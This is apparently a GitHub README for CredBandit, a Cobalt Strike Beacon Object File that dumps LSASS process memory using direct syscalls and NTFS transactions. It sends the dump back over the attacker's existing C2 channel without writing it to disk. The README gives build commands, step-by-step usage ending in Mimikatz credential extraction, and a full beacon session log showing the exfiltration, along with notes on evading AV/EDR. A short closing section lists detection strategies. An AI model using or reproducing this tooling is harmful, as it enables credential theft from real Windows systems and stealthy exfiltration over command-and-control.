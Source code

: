 # CredBandit

CredBandit is a proof of concept Beacon Object File (BOF) that uses static x64 syscalls to perform a complete in memory dump of a process and send that back through your already existing Beacon communication channel.  The memory dump is done by using NTFS transactions which allows us to write the dump to memory and the MiniDumpWriteDump API has been replaced with an adaptation of ReactOS's implementation of MiniDumpWriteDump. 

The memory dump is then downloaded over the beacon with Beacon's native download functionality. The advantage of doing it this way is that the dump is never written to disk and is sent via your already established C2 channel. 

# Subject References
This tool wouldn't exist without being able to piggyback off some really great research, tools, and code already published by members of the security community. So thank you. Lastly, if you feel anyone has been left out below, please let me know and I will be sure to get them added.
- Red Team Tactics: Combining Direct System Calls and sRDI to bypass AV/EDR (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
- Direct Syscalls in Beacon Object Files (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
- TransactedSharpMiniDump - [here](https://github.com/PorLaCola25/TransactedSharpMiniDump)
- rookuu/BOFS/MiniDumpWriteDump (by [@rookuu_](https://twitter.com/rookuu_))- [here](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump) - Did all the heavy lifting for converting the ReactOS minidump.c to BOF compatible code
- SysWhispers (by [@Jackson_T](https://twitter.com/Jackson_T))- [here](https://github.com/jthuraisamy/SysWhispers)
- InlineWhsipers - [here](https://github.com/outflanknl/InlineWhispers)
- ([@ilove2pwn_](https://twitter.com/ilove2pwn_)) - Confirmed my original idea of the possibility of being able to use BeaconPrintf() function to send data back through CS, helped me get started with writing/understanding the amazing (insert == sarcasm) sleep language.  I also borrowed and modified little bit of logic for chunking data in C [here](https://gist.github.com/SecIdiot/82e4162e495602f064aba5b42575da5e)
- ([@BinaryFaultline](https://twitter.com/BinaryFaultline)) - Added the ability to use beacon's native download functionality
- ([@Cr0Eax](https://twitter.com/Cr0Eax]) and [@_EthicalChaos_](https://twitter.com/_EthicalChaos_)) - Initial discovery and usage of Beacon's native download functionality. See their tweets about it: https://twitter.com/_EthicalChaos_/status/1413229432219779074?s=20 and https://twitter.com/Cr0Eax/status/1412761297951739907?s=20

## Getting Started

1. Copy the credBandit folder with all of its contents and place it a directory just above your cobaltstrike folder on whatever system you plan to connect with via the GUI application.
2. Load in the MiniDumpWriteDump.cna Aggressor script
3. Run credBandit against target LSASS process (or other process)
4. Download the dump file from the Aggressor Downloads console
6. Use Mimikatz to extract the dump file

### Build Your Own

Run the below command inside the src directory
```
x86_64-w64-mingw32-gcc -o credBanditx64.o -c credBandit.c  -masm=intel
```

### Use Case

> *With High or SYSTEM integrity, the operator can perform a memory dump of LSASS without ever touching disk*

### Syntax

Perform memory dump and send back through CS using BeaconPrintf function. The second parameter of output name is optional and will show up in the Aggressor Downloads console as mem:\\[output].dmp

```
beacon> credBandit 708 output
[*] Running credBandit by (@anthemtotheego)
[+] host called home, sent: 18696 bytes
[+] received output:
[+] Attempting To Enable Debug Privs

[+] received output:
[+] Attempting To Dump Proccess 708

[+] received output:
[+] NtOpenProcess returned HANDLE 0x00000000000006CC

[+] received output:
[+] NtCreateTransaction returned HANDLE 0x00000000000006D4

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] NtCreateFile returned HANDLE 0x00000000000006D8

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] OS Version: 10.0.19042

[+] received output:
[+] MiniDump written to memory

[+] received output:
[+] MiniDump Size In Bytes = 109868198

[+] received output:
[+] NtCreateSection created

[+] received output:
[+] NtMapViewOfSection successful

[*] started download of mem:\output.dmp (109868198 bytes)
[*] download of output.dmp is complete
```

## Caveats

1. While I have tried to make this pretty stable, Although this method has become more stable with the download method, BOFs still carry the risk of causing a beacon to crash. Use at your own risk.
2. Since the BOF is executed in process and takes over the beacon while running, sleep time is not relevant.  Data will be continously sent while dump is exfiltrated.
3. Lastly, I commented in the code places where you could make modifications if you wanted to do other stuff, for example, write to disk instead, add in different encoding/encryption, Comms, etc.
 
## Detection

Some detection and mitigation strategies that could be used:

1. Credential Guard [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage)
2. Event Tracing [here](https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing)
3. Looking for suspicious processes touching LSASS
4. Looking for other known Cobalt Strike Beacon IOC's or C2 egress/communication IOC's. 
